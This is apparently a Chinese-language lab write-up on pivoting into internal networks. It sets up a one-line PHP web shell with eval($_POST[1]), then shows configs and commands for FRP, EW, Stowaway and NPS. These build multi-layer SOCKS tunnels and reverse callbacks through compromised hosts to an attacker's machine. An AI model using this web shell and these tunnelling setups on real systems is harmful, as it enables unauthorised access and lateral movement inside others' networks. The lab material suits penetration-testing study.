

# 环境搭建

本机

kali：10.211.55.7（192.168.121.3）

kali的克隆：192.168.121.6（192.168.141.5）

Win11：192.168.141.6（192.168.161.3）


为了，测试，在两台kali上起apache的web服务，win11用phpstudy起web服务

```
<?php
phpinfo();
eval($_POST[1]);
```

都放上一个如上代码的1.php

蚁剑先连上10.211.55.7的马

# FRP

## 第一层

首先配置frp服务端，起在公网上，这边我就起在我的本机上，选择对应版本，我是MacOs

先来看看frps.ini，默认配置如下，可以添加一个控制台


添加控制台修改frps如下，默认监听端口是7000，控制台在7500，这里我7000被占用了，换成了7100


允许要加权限，然后运行

```
./frps -c frps.ini
```


将frpc和frcp.ini传到10.211.55.7上，修改frpc.ini的配置（运行前加权限）

```
[common]
server_addr = 192.168.3.68
server_port = 7100

[plugin_socks]
tls_enable = true
type = tcp
remote_port = 7777
plugin = socks5
```

这样的话就可以去连服务端的7100端口，客户端中所有的流量通过客户端本地的一个随机端口转发给vps的7100端口，我们访问vps的7777端口就相当于访问客户端的7100端口

```
./frpc -c frpc.ini
```


因为访问7777就相当于访问7100端口，而且是通过socks的，所以可以直接用proxifier去连接

然后就可以访问10.211.55.7的内网192.168.121.3了


## 第二层

访问到内网192.168.121.0这个网段了，就可以访问内网另外一台主机192.168.121.6了


现在我们通过代理拿到了192.168.121.6（192.168.141.5）这台主机了，但是呢，我只能访问他的121网段，不能访问其内网

现在要再进行一步代理让我的物理机能访问到192.168.141.0这个网段，所以就需要再通过192.168.121.0这个网段进行一次frp穿透，让他还要充当一个服务端，所以将frps和frps.ini放到10.211.55.7（192.168.121.3）这台机器上

修改fps，这里要加上121这台机子的ip

```
[common]
bind_addr = 192.168.121.3
bind_port = 7100
```

运行`frps -c frps.ini`

然后在192.158.141.5的机器上运行frpc客户端，修改frpc.ini

```
[common]
server_addr = 192.168.121.3
server_port = 7100

[http_proxy]
type = tcp
remote_port = 8888 
plugin = socks5
```

连上frps后，此时原本在10.211.55.7这台机子上用的frpc客户端的frpc.ini也需要修改

```
[common]
tls_enable = true
server_addr = 192.168.3.68
server_port = 7100
[http_proxy]
type = tcp
remote_port = 7777
#plugin = socks5，不能加上这个
#相较于一级代理，增加如下两个配置
local_ip = 192.168.121.3
local_port = 8888
```

再重新运行一次`frpc -c frcp.ini`


访问到了192.168.141.5

## 第三层

与第二层一样，上传frps和frps.ini起了服务后，用192.168.161.0网段拿下的机子上传frpc客户端连接，最后再修改192.168.141.5上的frpc配置

frps.ini

```
[common]
bind_addr = 192.168.141.5
bind_port = 7100
```

192.168.161.3上的frpc.ini配置

```
[common]
server_addr = 192.168.141.5
server_port = 7100

[http_proxy]
type = tcp
remote_port = 9999 
plugin = socks5
```

修改原来192.168.141.5上的frpc.ini配置重启

```
[common]
tls_enable = true
server_addr = 192.168.121.3
server_port = 7100
[http_proxy]
type = tcp
remote_port = 8888
#plugin = socks5，不能加上这个
#相较于一级代理，增加如下两个配置
local_ip = 192.168.141.5
local_port = 9999
```


这样经过多层转发，就能到达192.168.161.0网段，但是对于之前的192.168.121.0网段就会断掉

其实可以看到，整个在穿透的过程中，实际上就是将新起的服务端的接受流量转发到上一层，所以frp也可以直接做端口映射，将ssh或者mysql等服务的端口直接映射出来

# EW

这里我换了网络，攻击机的IP和kali的公网ip已经变了，kali变为了192.168.0.107

## 正向代理

这种方式需要目标主机存在公网IP且可开放任意端口，将ew_for_linux上传到目标机器

```
ew_for_linux64 -s ssocksd -l 8888
```

**连接方式：**

proxychains：修改proxy chains.conf

```
socks5  10.211.55.7 8888
```

需要注意，ew用的的socks5

proxifier：直接连目标机器的8888端口就行

## 反向代理

因为其实这里我的机器是arm架构的linux，我没有找到可用的ew可执行文件，所以只记录一个payload

### 单层代理

```
# 具有公⽹IP的主机上执⾏如下命令
./ew_for_MacOSX64 -s rcsocks -l 1080 -e 8888
# ⽬标不出⽹主机上启动SOCKS v5服务并反弹到公⽹主机的8888端
ew_for_linux64 -s rssocks -d 192.168.0.100 -e 8888
```

### 多层代理

这里最好还是用反向代理的方式最好

```
# 具有公⽹IP的主机上监听1080端⼜并转发给本地8888端⼜
./ew_for_MacOSX64 -s rcsocks -l 1080 -e 8888
# ⽬标不出⽹主机A将具有公⽹IP的主机的8888端⼜和内⽹主机B的9999端⼜连接起来
ew_for_Win.exe -s lcx_slave -d 192.168.0.100 -e 8888 -f 192.168.121.6 -g 9999 -t 1000000
# 内⽹主机B开启SOCKS v5服务并反弹到内⽹主机B的9999端⼜
ew_for_Win.exe -s ssocksd -l 9999 -t 1000000
```

# Stowaway

因为实在受不了这些工具没有ARM架构的linux可执行文件了，所以这里内网环境做了变更，我用两台windows的环境做一个两层内网，对于三层及多层其实和二层是一样的

本机192.168.43.21

用win11（192.168.43.33），内网为（10.121.10.3）

win11的克隆作为内网机器（10.121.10.4，10.121.20.3）

## 单层网络

本机起服务端等待连接，连接密码DawnT0wn，监听端口9999

```
./admin -l 9999 -s DawnT0wn
```


将agent端上传到拿下的web主机

```
windows_x64_agent.exe -c 192.168.43.21:9999 -s DawnT0wn
```


使用

```
help
detail
use 0
socks 7777 admin admin

后面两个是socks连接的账号和密码
```


而且这个还能直接进shell




## 多层网络

在原攻击机上的节点，也就是节点0处输入listen，选择模式1，输入端口，即可在对应节点的机器上打开对应端口监听


然后在内网的win11克隆的机器上上传客户端，连上一节点（win11）的1000端口

```
agent.exe -c 10.121.10.3:10000 -s DawnT0wn
```


在攻击机上看到了有新的节点加入


back后选择新节点然后打开新的监听

如果要连新节点的内网，就proxifier走新开的socks端口，也就是说，要去连谁就让proxyfier走对应的socks端口

对应新的节点就这样，在原节点开listen


# NPS

```
chmod 777 ./*
sudo ./nps install
sudo ./nps start
```

起在8080端口admin/123


这个配多层代理不太好用了

# Venom

这个其实就是stowaway的原生版本